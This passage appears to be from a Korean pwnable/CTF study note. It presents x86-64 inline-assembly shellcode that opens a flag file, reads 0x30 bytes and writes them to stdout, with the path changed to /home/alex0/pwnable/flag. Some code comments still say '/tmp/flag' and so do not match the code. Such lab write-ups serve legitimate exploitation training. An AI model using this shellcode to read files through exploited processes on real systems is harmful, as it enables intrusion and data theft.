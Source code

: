 ```c
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```
![image](https://github.com/user-attachments/assets/6d795dc9-6759-49e6-a0b8-f1337ca148da)


**추가**

flag 파일을 `tmp/flag` 위치가 아닌 `home/alex0/pwnable/flag` 위치에 넣어봤다
![image](https://github.com/user-attachments/assets/b54e9ea6-fdcb-486b-9e96-7b23a960faac)


파일 위치를 적어야하니 경로를 변환해주고 넣어준다.  

```c
__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x67616c662f656c62\n" // galf/elb
    "push rax\n"
    "mov rax, 0x616e77702f307865\n" // anwp/0xe
    "push rax\n"
    "mov rax, 0x6c612f656d6f682f\n" // la/emoh/
    "push rax\n"

    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");
```


![image](https://github.com/user-attachments/assets/9c7d18e9-d10f-4382-a9c1-db3f46d30d0a)
